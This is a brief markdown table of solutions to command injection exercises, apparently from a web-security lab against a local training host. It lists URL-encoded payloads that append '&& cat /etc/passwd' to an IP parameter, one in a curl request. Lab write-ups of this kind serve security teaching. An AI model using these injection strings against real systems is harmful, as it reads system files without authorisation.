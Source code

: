 # Phase III: Vulnerbility discovery & Exploitation
## Command Injection
| excercise | solution |
|___________|__________|
| example 1 | 10.0.2.4+%26%26+cat+%2Fetc%2Fpasswd `10.0.2.4 && cat /etc/passwd`|
| example 2 | 10.0.2.4%0A%26%26+cat+%2Fetc%2Fpasswd `10.0.2.4(New Line)&& cat /etc/passwd`|
| example 3 | curl -X GET http://10.0.2.4/commandexec/example3.php?ip=10.0.2.4%0A%26%26+cat+%2Fetc%2Fpasswd |